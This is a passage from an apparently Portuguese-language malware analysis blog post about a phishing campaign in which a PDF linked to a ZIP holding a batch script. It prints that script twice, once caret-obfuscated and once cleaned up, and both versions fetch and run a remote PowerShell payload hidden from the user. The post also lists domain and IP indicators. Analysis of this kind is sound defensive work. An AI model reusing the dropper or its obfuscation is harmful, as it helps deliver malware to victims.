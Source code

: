 
![alt text]({{ site.url }}/assets/images/posts/2018/04/pdf.jpeg "PDF malicioso em anexo")

### Etapa 2

Um link encurtado (hXXps://goo.gl/ueC1q7) foi incluído no PDF para baixar o ZIP, que permitia ao operador (até a remoção do link) obter um relatório da quantidade de cliques, distribuição geográfica e plataformas das vítimas. O link, redirecionava as vítimas para um subdomínio de um DNS dinâmico (i.e.: boltercaimprimirs.ddns.net) resolvido para o IP 34.199.8.144, pertencente à Amazon AWS.

Buscando no RISKIQ, vemos que o host está ativo pelo menos desde o dia 27 de março:

![alt text]({{ site.url }}/assets/images/posts/2018/04/passive-total.png "Atividas registradas no domínio boltercaimprimirs.ddns.net")

O payload consitia em um arquivo ZIP contendo um script batch (BOLDIGITAL27032018.cmd) bastante simples:

```
@echo off
cd %SystemRoot%\System32
set a=W^in
set b=dow
set c=s^Po
set d=w^er
set e=Sh^e
set f=^ll\
set g=^v^1^.
set h=0\po
set i=we
set j=rsh
set k=^e^l^l
set l=.^e^x
set m=e^ -n
set n=op^ 
set o=-w
set p=in^ ^1 -
echo i^E^X(^"^iE^x^`(N^`E^`w`-`ob`J^`e`c^t^ ^Ne^T.wEb`cL^i^e^n^t^`)`.`d`ownL`Oa^d^S^tRiN`G^(^'h^t^tps^:^//d^l^m.sup^ot^e^.co^m/^?f^mJh^uwOE^a6^IC^uIJdSOh^rb8^W^F^t^I5D^ZQVA^84vcRVN^LT^n^jl^K6L^0bnd^Q^x^wBU^Yz^4o^ft6^I^GQ^e^Mq^Jv^/D^Wmh^C^cD1^E^Fo^g^Jrl^I^+G^bc^+/^qcTPBaw^w^c2Ap^Dpi^Q^0=`'^)^"^); | %a%%b%%c%%d%%e%%f%%g%%h%%i%%j%%k%%l%%m%%n%%o%%p%
```

Simplificando o script, vemos que ele visa simplemente executar um script Powershell hospedado externamente:

```
@echo off
cd %SystemRoot%\System32
echo iEX("iEx(NEw-obJect NeT.wEbcLient).downLOadStRiNG('https://dlm.supote.com/?fmJhuwOEa6ICuIJdSOhrb8WFtI5DZQVA84vcRVNLTnjlK6L0bndQxwBUYz4oft6IGQeMqJv/DWmhCcD1EFogJrlI+Gbc+/qcTPBawwc2ApDpiQ0=')"); | WindowsPowerShell\v1.0\powershell.exe -nop -win 1 -
```

Obs.: Justamente a URL desse script (*hXXps://dlm.supote.com/?...*) já estava desativa no momento que tentei acessá-la.

